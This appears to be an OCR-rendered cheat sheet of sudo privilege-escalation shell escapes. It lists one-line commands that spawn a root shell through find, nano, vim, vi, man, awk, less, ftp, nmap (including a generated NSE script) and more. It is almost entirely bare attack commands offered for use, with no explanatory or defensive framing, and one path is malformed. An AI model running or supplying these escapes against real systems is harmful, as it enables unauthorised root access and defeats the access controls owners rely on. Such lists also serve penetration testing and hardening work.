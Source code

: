 ````
````
#### find
````
sudo /usr/bin/find . -exec /bin/bash \; -quit
sudo /find /bin -name nano -exec /bin/sh \;
````
#### nano
````
sudo /usr/bin/nano
Press ctrl+r then ctrl +x 
Reset; bash 1>&0 2>&0
````
#### vim
````
sudo vim -c ':!/bin/bash'
````
- Method 2
````
sudo vim -c '!sh'
````
#### vi
````
:set shell=/bin/sh
:shell
````
#### man
````
sudo /usr/bin/man man
!/bin/sh
````
#### awk
````
sudo awk 'BEGIN {system("/bin/bash")}'
sudo awk 'BEGIN {system("/bin/sh")}'
````
#### less
````
sudo /usr/bin/less /etc/profile
!/bin/sh
````
#### FTP
````
sudo /usr/bin/ftp
!/bin/bash
````
#### nmap
- Method 1
````
TF=$(mktemp)
echo 'os.execute("/bin/bash")' > $TF
sudo nmap --script=$TF
````
- Method 2
````
sudo nmap --interactive
!bash
````
- Method 3
````
echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse
````
#### more
````
TERM= sudo -E more /etc/profile
````